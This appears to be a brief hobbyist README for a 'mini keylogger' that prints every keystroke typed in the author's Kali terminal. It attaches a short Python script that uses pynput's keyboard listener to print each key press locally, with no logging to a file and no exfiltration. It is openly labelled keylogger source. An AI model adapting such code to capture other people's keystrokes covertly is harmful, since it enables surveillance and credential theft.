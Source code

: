 # mini_keylogger

it is an mini keylogger which prints all key strokes typed in our terminal(iam using in kali)

ill attach the code;)


import pynput.keyboard


def callback_function(key):
    print(key)

keylogger_listener = pynput.keyboard.Listener(on_press=callback_function)
with keylogger_listener:
    keylogger_listener.join()
